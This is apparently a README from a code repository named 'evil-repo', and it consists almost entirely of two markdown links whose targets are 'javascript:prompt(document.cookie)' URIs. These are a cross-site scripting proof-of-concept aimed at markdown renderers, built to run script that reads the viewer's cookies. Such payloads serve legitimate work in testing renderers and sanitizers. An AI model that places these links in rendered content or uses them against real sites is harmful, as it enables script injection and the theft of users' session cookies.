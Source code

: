 evil-repo
=========

[a](javascript:prompt(document.cookie))
![a](javascript:prompt(document.cookie))
